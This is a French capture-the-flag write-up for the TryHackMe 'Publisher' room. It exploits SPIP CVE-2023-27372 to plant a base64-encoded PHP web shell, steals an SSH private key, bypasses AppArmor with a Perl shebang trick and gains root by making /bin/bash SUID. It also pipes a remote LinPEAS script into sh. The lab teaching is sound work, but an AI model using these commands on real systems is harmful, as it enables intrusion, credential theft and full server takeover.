

[https://tryhackme.com/room/publisher](https://tryhackme.com/room/publisher)
## Nmap

Pour faire une première prise d'information, Nmap est très utile pour savoir quels port sur la machine cible est ouvert et utilisé par quels services.

Voici ma commande Nmap avec les options détaillées :
- `-sC` : activer les scripts Nmap Scripting Engine (NSE) sûrs et utiles pour la détection de version, la découverte d'informations supplémentaires sur les services, et la vérification de certaines vulnérabilités courantes.
- `-sV` : Active la détection de version.
- `-oA` : Sauvegarder le résultat du scan initial fait par Nmap, en trois types de fichiers possibles (XML, Nmap et GNmap)

```sh
nmap -sC -sV -oA initial_scan <IP-cible>
```




Nous remarquons deux choses importantes, il y a un serveur SSH allumé et qu'il y a un serveur web Apache d'allumé : le serveur web est le seul exploitable actuellement.


## Gobuster

Etant donné que nous avons un serveur web, avec une page statique, il faut découvrir s'il y a un d'autres fichiers ou dossier présents sur le serveur. Gobuster est un programme qui va nous être utile pour brute force le serveur de requêtes HTTP avec des noms de fichiers communément utilisés, présents dans la **wordlist** `common.txt` :
```sh
gobuster dir -u http://<IP-cible> -w /usr/share/wordlists/dirb/common.txt
```




Nous découvrons un dossier `/images` mais ils contient simplement les images statiques de la page :


Je réessaye avec une deuxième **wordlist** plus complète, `big.txt`, et qui va trouver un dossier `/spip` :
```sh
gobuster dir -u http://<IP-cible> -w /usr/share/wordlists/dirb/big.txt
```






Avec un peu plus de recul, il était possible de comprendre dès la page à la racine, que le serveur web utilisait le service **SPIP** (Système de publication pour l'Internet) est un logiciel libre destiné à la production de sites web.

Mais bon, maintenant que nous avons bien compris ça, il faut trouver sa version, car nous voulons savoir si SPIP présente une faille que nous pourrions exploiter, en recherchant sur le site d'[Exploit-db](https://www.exploit-db.com/).

Il a plusieurs manières de le savoir mais pour moi, c'est la commande `curl` qu'il me l'a donné :


## RCE

Après avoir pris l'information de la version de SPIP, je suis allé chercher sur [Exploit-db](https://www.exploit-db.com/) s'il y avait une faille renseigné et il y a une faille renseigné sous la CVE suivante : [CVE-2023-27372](https://www.exploit-db.com/exploits/51536).

Nous avons remarqué que SPIP sur sa version 4.2 et sur cette version, il y a une faille qui permet une RCE (Remote Command Execution) cela via des valeurs de formulaire dans la zone publique car la sérialisation est mal gérée, sans avoir besoin d'être connecté.
La vulnérabilité RCE permet à un attaquant d'exécuter du code arbitraire sur un périphérique distant.

Il existe un [PoC](https://www.exploit-db.com/raw/51536) (Proof of Concept) qui exploite une injection de code PHP dans SPIP. La vulnérabilité existe dans le paramètre « oubli » et permet à un utilisateur non authentifié d’exécuter des commandes arbitraires avec des privilèges d’utilisateur web.


J'ai téléchargé le code de la PoC et j'ai renommé le fichier avec la CVE :
```sh
mv Téléchargements\51536.py CVE-2023-27372.py
```


Pour l'utiliser, on doit faire la commande suivante :
- `python CVE-2023-27372.py` pour faire l'exécution du code Python
- `-u http://<IP-cible>/spip` option pour préciser l'url avec l'ip de la cible 
- `-c` option pour préciser la commande à effectuer, entouré de `' '` 
- `'echo PD89YCRfR0VUWzBdYD8+|base64 -d > shell.php'`  :

Il faut faire télécharger à la machine cible, un code en PHP pour transformer notre url vers le serveur web en terminal de commande :
- On va convertir ce code PHP :
```php
<?=`$_GET[0]`?>
```
- En base 64, avec [CyberChef](https://gchq.github.io/): 
```base64
PD89YCRfR0VUWzBdYD8+
```


> **Pourquoi en base64 ?**
> Puisque le code PoC utilise déjà des guillemets dans la charge utile, il est possible d'utiliser base64 pour éviter d'être confronté à ceux de notre shell inverse.

- Et, nous allons créer un fichier PHP avec cette base64, qu'on va décoder avec l'option `-d` : 
```
'echo PD89YCRfR0VUWzBdYD8+|base64 -d > shell.php'
```

Enfin, on a la commande suivante :
```sh
python CVE-2023-27372.py -u http://<IP-cible>/spip -c 'echo PD89YCRfR0VUWzBdYD8+|base64 -d > shell.php'
```

Maintenant que l'on fait cette commande, nous pouvons taper cet url :
```
http://<IP-cible>/spip/shell.php?0=<cmd>
```

J'ai commencé par analyser les fichiers présents dans le répertoire utilisateur de la machine cible :
```
http://<IP-cible>/spip/shell.php?0=ls -la ../..
```


Et, on peut voir que l'utilisateur sur la machine est `think` et qu'il y a un fichier `user.txt` :
```
http://<IP-cible>/spip/shell.php?0=ls -la ../../cat user.txt
```

**Voici le flag utilisateur !**

## SSH

On doit maintenant, aller plus loin pour trouver le flag root qui doit sûrement nécessité la recherche d'un terminal en root pour l'obtenir. On avais vu, au début avec le nmap, qu'il y avait un port pour le ssh donc je suis allé voir si la connexion SSH est faisable par clé :
```
http://<IP-cible>/spip/shell.php?0=ls -la ../../.ssh
```


Et, on peut voir qu'il y a les deux clés (privé et public) rsa pour le SSH donc j'ai copié le contenu de la clé privé sur ma Kali :
```
http://<IP-cible>/spip/shell.php?0=cat ../../.ssh/id_rsa
```


```sh
vim id_rsa
head id_rsa
```

Donc, nous allons pouvoir ce connecté en SSH à la machine cible sur l'utilisateur think et avec la clé privé :
```sh
ssh think@<IP-cible> -i id_rsa
```


## Escalade de privilèges

Maintenant que nous sommes connecté en SSH, nous allons devoir chercher un moyen, une faille nous permettant de faire une escalade de privilèges afin de passer en root.

Malheureusement, je n'ai pas pu faire télécharger sur la machine cible, le script [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) avec les commandes suivantes :

```sh
## From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

## Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```


Donc, j'ai fait cette commande manuelle qui va faire la même chose : 
Cette commande a pour but de rechercher les fichiers sur le système qui ont le bit SUID (Set User ID) défini. 
- `find /`: Lance la commande `find` à partir de la racine du système de fichiers (`/`).
- `-type f`: Limite la recherche aux fichiers ordinaires (pas de répertoires, de liens symboliques, etc.). Le `-type f` spécifie que nous cherchons des fichiers.
- `-perm -u=s`: Cherche des fichiers qui ont le bit SUID défini. 
Le bit `SUID` permet à un utilisateur d'exécuter un fichier avec les privilèges du propriétaire de ce fichier. Par exemple, si un fichier est possédé par l'utilisateur root et a le bit SUID défini, alors un utilisateur normal pourrait exécuter ce fichier avec les privilèges root.

- `2>/dev/null`: Redirige les erreurs (descripteur de fichier 2) vers `/dev/null`, ce qui signifie que les messages d'erreur seront ignorés. 

```sh
find / -type f -perm -u=s 2>/dev/null
```


Je suis interpellé par le résultat `/usr/sbin/run_container` car cela signifie qu'il y a `Docker` installé sur la machine cible et j'en ai la preuve :


Je fais la commande strings pour afficher les chaînes de caractères imprimables dans un fichier binaire ou non texte :
```sh
strings /usr/sbin/run_container
```


Le résultat nous affiche, en clair, le script shell : `/opt/run_container.sh` ce qui veut dire que ce fichier shell est utilisé par le binaire du fichier `/usr/sbin/run_container`.

> Remarque : On peut voir que nous avons toutes les permissions (lire, écrire et exécuter) sur le dossier et du script mais pourtant, il est impossible de le modifier !

```sh
ls -la ../..
```

```sh
ls -la /opt/run_container.sh
```

## App Armor

Perdu devant ce problème, j'ai regardé l'indice disponible sur la room, qui m'indique `App Armor` en recherchant sur Google, j'ai appris que c'est un **module de sécurité du noyau Linux**, utiliser pour limiter les fonctionnalités des processus s'exécutant sur le système d'exploitation hôte.


Et que notre terminal n'est pas un `/usr/bin/bash` mais `/usr/sbin/ash`, vérifiable avec la commande suivante :
```sh
echo $SHELL
```


```sh
cat /etc/passwd
```

On peut voir que le compte root a un terminal en `/usr/bin/bash` et `think` a un terminal `/usr/sbin/bash` !

Je suis allé voir les règles sur les fichiers de App Armor et on peut bien voir que `usr.sbin.ash` est soumis à des restrictions de lecture seule, qui fait évidemment référence à notre terminal actuel :
```sh
cd /etc/apparmor.d
ls -la
```


Donc, regardons le contenu du fichier avec la commande suivante :
```sh
cat usr.sbin.ash
```


Et on peut voir que les permissions données, nous empêche d'écrire dans le dossier `/opt`. 

Mais, en raison du `ix` sur `/usr/bin/** mrix` et `/usr/sbin/** mrix`, tout programme que nous exécutons qui se trouve dans ces chemins héritera également de cette politique.
Il faut trouver un moyen de `bypass` la sécurité de App Armor pour obtenir un terminal classique.

## Shell - Perl

En recherchant sur Internet, j'ai trouvé sur le site de [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor##apparmor-shebang-bypass) une méthode permettant de contourner l’App Armor et générer un terminal sans restrictions.


Il nous explique qu'il y a un bug : que même s'il y avait des règles qui empêche l'exécution de **Perl** avec certaines ressources, on peut toujours créer un fichier, spécifiant le shebang de Perl `##!/usr/bin/perl` afin que Perl l'interprète et qu'il nous créer un **script shell** !

Voici les commandes et leur descriptions détaillés :
1. **Création du script Perl** :
- `echo '##!/usr/bin/perl\nexec "/bin/sh"' > /dev/shm/test.pl` : 
  - `##!/usr/bin/perl` : C'est la ligne de **shebang** qui indique que le script doit être exécuté avec l'interpréteur Perl.
  - `\n` : Séquence d'échappement représentant un saut de ligne.
  - `exec "/bin/sh"` : Cette ligne de code Perl indique à Perl d'exécuter `/bin/sh`, un shell.
  - `> /dev/shm/test.pl` : Redirige la sortie de `echo` vers le fichier `/dev/shm/test.pl`.

Dans la méthode présenté sur `HackTricks`, `App Armor` nous empêche d'écrire dans le dossier `/tmp`. Cependant, nous pouvons toujours écrire dans le dossier `/dev/shm`, qui est une mémoire partagée temporaire (RAM), ou encore, dans le dossier `/var/tmp` est le répertoire utilisé pour stocker des fichiers temporaires.

2. **Rendre le script exécutable** :
- `chmod +x /dev/shm/test.pl` : Cette commande change les permissions du fichier `test.pl` pour le rendre exécutable.

3. **Exécution du script** :
- `/dev/shm/test.pl` : Cette commande exécute le script Perl nouvellement créé.
  - Lorsque ce script est exécuté, le shebang (`##!/usr/bin/perl`) dirige l'interpréteur vers Perl.
  - Ensuite, Perl exécute la commande `exec "/bin/sh"`, lançant ainsi un shell Unix.

```sh
echo -e '##!/usr/bin/perl\nexec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
/dev/shm/test.pl
```


En faisant cette commande, nous pouvons voir que nous sommes toujours connecté en `think` dans ce nouveau terminal avec le `$` devant le terminal :
```sh
whoami
```

## Root

Maintenant que nous avons un terminal propre, nous allons repartir sur le script `/opt/run_container.sh` ayant le bit `SUID` pour pouvoir passer sur un terminal en `root`.

Pour ce faire, nous allons remplacer le contenu de ce script `/opt/run_container.sh` pour qu'il ouvre un script en root. Je rappelle que nous avons tous les droit de le modifier (voir plus haut) et que rien ne nous en empêche dorénavant !

Voici la commande et son descriptif :
- `echo ##!/bin/bash` : La commande `echo` avec le shebang Bash.
- `chmod +s /bin/bash` : Cette commande shell qui modifie les permissions du fichier `/bin/bash` en ajoutant le bit SUID (Set User ID), pour pouvoir être en root !
- `> /opt/run_container.sh` :  La sortie du `echo` qui va écrasé le contenu du fichier.
```sh
echo '##!/bin/bash\n chmod +s /bin/bash' > /opt/run_container.sh
```


Maintenant, nous allons exécuter le `/usr/sbin/run_container`, qui va appelé le script `/opt/run_container.sh` et qui va donc changer les permissions sur le dossier `/bin/bash` :
```sh
/usr/sbin/run_container
ls -la /bin/bash
```


Enfin, nous allons terminer par la commande suivante, qui nous faire passer pour le compte root dans ce terminal car la commande `/bin/bash -p` lance un shell Bash avec les paramètres de privilège conservés (`root`) :
```sh
/bin/bash -p
```


Et en faisant cette commande, nous pouvons voir que nous sommes maintenant connecté en tant que root !
```sh
whoami
```


Dans ce nouveau terminal bash en root, avec `bash-5.0##` devant le terminal, nous trouvons  facilement le fichier `root.txt` contenant le dernier flag de la room :
```sh
ls -la
cat root.txt
```


**Voici le flag root !**
